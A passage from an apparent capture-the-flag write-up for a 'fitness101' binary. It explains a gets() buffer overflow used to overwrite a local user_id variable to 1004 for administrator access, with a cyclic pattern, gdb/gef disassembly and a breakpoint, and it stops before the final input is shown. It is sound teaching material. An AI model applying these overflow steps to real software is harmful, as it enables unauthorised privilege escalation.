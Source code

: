So basically, we need to overwrite local_24 to be `1004`.
From now on, let's refer to `local_24` as `user_id`


### 1 - From mystery101 to administrator

The program is using `gets()`, which is a very very vulnerable function. Here is the manual page describing `gets()`:

```bash
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in  advance  how  many
       characters  gets()  will read, and because gets() will continue to store characters past the end of
       the buffer, it is extremely dangerous to use.  It has been used to break  computer  security.   Use
       fgets() instead.

```

Okey, all we need to do now is to feed `gets()` enough characters to overwrite our variable.

#### calculating the offset

In order to overwrite `user_id`, we need to count how many characters we need to write until we reach that variable.
To do so, we can either experiment manually, or use `gdb`.

Let's use gdb !

First, let's generate a cyclic pattern that we will use as input to the gender param.

```
┌──(yariss㉿Kali-VM)-[~/Desktop/fitness101]
└─$ cyclic 100 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Now let's run gdb, and inspect the value of `user_id`.
> I'm using `gef` as an extension of gdb

```
gef➤  set disassembly-flavor intel
gef➤  disassemble main
```

Now let's add breakpoint before the comparison is made
```c
   0x000000000040146a <+178>:   call   0x401160 <gets@plt>
   0x000000000040146f <+183>:   mov    eax,DWORD PTR [rbp-0x1c]
   0x0000000000401472 <+186>:   cmp    eax,0x3ec

```

```
gef➤  b *main+186
Breakpoint 1 at 0x401472
```
